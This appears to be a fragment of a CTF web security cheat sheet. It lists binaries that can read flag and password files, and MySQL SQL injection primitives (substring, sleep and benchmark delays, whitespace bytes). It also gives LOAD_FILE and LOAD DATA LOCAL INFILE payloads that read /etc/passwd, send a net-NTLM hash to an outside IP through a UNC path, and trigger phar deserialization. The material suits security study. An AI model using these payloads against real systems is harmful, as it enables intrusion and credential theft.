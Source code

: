 ## Read File

- diff /etc/passwd /flag
- paste /flag
- bzmore /flag
- bzless /flag
- static-sh /flag
- ...

# SQL Injection


## MySQL

- 子字串：
    - `substr("abc",1,1) => 'a'`
    - `mid("abc", 1, 1)  => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `CONCAT('a', 'b') => 'ab'`
        - 如果任何一欄為 NULL，則返回 NULL
    - `CONCAT_WS(分隔符, 字串1, 字串2...)`
        - `CONCAT_WS('@', 'gg', 'inin')` => `gg@inin`
- Cast function
    - `CAST('125e342.83' AS signed) => 125`
    - `CONVERT('23',SIGNED) => 23`
- Delay function
    - `sleep(5)`
    - `BENCHMARK(count, expr)`
- 空白字元
    - `09 0A 0B 0C 0D A0 20`
- File-read function
    - `LOAD_FILE('/etc/passwd')`
    - `LOAD DATA INFILE`
        - Client 讀 Server 文件
        - 一樣受 `secure_file_priv`, `FILE` privilege 限制 (ref: [link](https://dev.mysql.com/doc/refman/8.0/en/load-data.html))
    - `LOAD DATA LOCAL INFILE`
        - Server 讀 Client 文件
        - `LOAD DATA LOCAL INFILE '/etc/hosts' INTO TABLE test FIELDS TERMINATED BY "\n";`
        - 不需要 `FILE` privilege，且任意目錄檔案皆可讀 (只要 Client 有權限即可)
        - support UNC Path
            - `LOAD DATA LOCAL INFILE '\\\\172.16.136.153\\test' into table mysql.test FIELDS TERMINATED BY "\n";`
                - stealing net-NTLM hash
        - Trigger phar deserialization
            - `LOAD DATA LOCAL INFILE 'phar://test.phar/test' INTO TABLE a LINES TERMINATED BY '\n'`
            - 非 default 設置
              ```
              [mysqld]
              local-infile=1
              secure_file_priv=""
              ```

